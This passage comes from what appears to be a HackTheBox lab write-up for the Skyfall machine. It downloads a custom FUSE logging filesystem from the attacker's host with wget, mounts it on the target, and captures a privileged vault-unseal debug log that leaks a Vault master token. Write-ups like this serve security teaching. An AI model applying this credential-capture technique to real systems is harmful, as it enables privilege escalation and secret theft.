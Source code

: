 ```

root@hacky:/home/oxdf# echo "now it should work" > testfs/as_root
root@hacky:/home/oxdf# cat testfs/as_root 
now it should work

```

And the file got logged:

```

root@hacky:/home/oxdf# cat hackthebox/skyfall-10.10.11.254/go-fuse/example/memfs/memfsoutput-1 
now it should work

```

#### On Skyfall

I’ll upload the compiled `memfs` to Skyfall, create a directory, and mount it:

```

askyy@skyfall:/dev/shm$ wget 10.10.14.6/memfs
--2024-08-27 18:33:29--  http://10.10.14.6/memfs
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3500122 (3.3M) [application/octet-stream]
Saving to: ‘memfs’

memfs                   100%[=============================>]   3.34M  11.8MB/s    in 0.3s    

2024-08-27 18:33:30 (11.8 MB/s) - ‘memfs’ saved [3500122/3500122]

askyy@skyfall:/dev/shm$ mkdir out
askyy@skyfall:/dev/shm$ chmod +x memfs 
askyy@skyfall:/dev/shm$ ./memfs
usage: main MOUNTPOINT BACKING-PREFIX
askyy@skyfall:/dev/shm$ ./memfs out/ out
Mounted!

```

In another SSH window, I’ll go into that directory and run `vault-unseal`:

```

askyy@skyfall:/dev/shm/out$ cat debug.log 
2024/08/27 18:34:49 Initializing logger...
2024/08/27 18:34:49 Reading: /etc/vault-unseal.yaml
2024/08/27 18:34:49 Security Risk!
2024/08/27 18:34:49 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/08/27 18:34:49 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Check interval: 5s
2024/08/27 18:34:49 Max checks: 5
2024/08/27 18:34:49 Establishing connection to Vault...
2024/08/27 18:34:49 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Checking seal status
2024/08/27 18:34:49 Vault sealed: false

```
